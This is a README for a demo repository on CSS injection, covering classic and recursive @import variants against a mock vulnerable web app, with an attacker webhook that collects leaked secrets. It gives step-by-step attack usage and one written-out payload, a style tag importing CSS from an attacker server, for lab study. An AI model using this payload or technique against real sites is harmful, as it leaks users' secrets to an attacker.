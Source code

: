 # c5517n
CSS Injection.

## Classic
### Overview
An example of a classic CSS Injection attack.
The attacker needs to have the user POST the attack vector every time.


### Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Run `attacker/exploit.py`.
1. Post the attack vector generated by `attacker/exploit.py` to `0.0.0.0:8080`, the leaked secret will be displayed on the console of `attacker/server.py`. 
1. Enter the leaked secret into `attacker/exploit.py` and continue the attack.
1. Loop...

### Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/exploit.py`: Generates a CSS Injection attack vector and copies it to the clipboard.
- `attacker/server.py`: Webhook to collect secret.

## Recursive
### Overview
An example of CSS Injection using Recursive Import technique.

### Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Post the attack vector: `<style>@import url('http://0.0.0.0:8081/css/0.css')</style>`.
1. Leakage continues recursively due to CSS import

### Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/server.py`: Webhook to collect secret.
- `attacker/templates/tmpl.jinja2`: Attack vector(CSS) template.

### Reference
[m---/onsen](https://github.com/m---/onsen)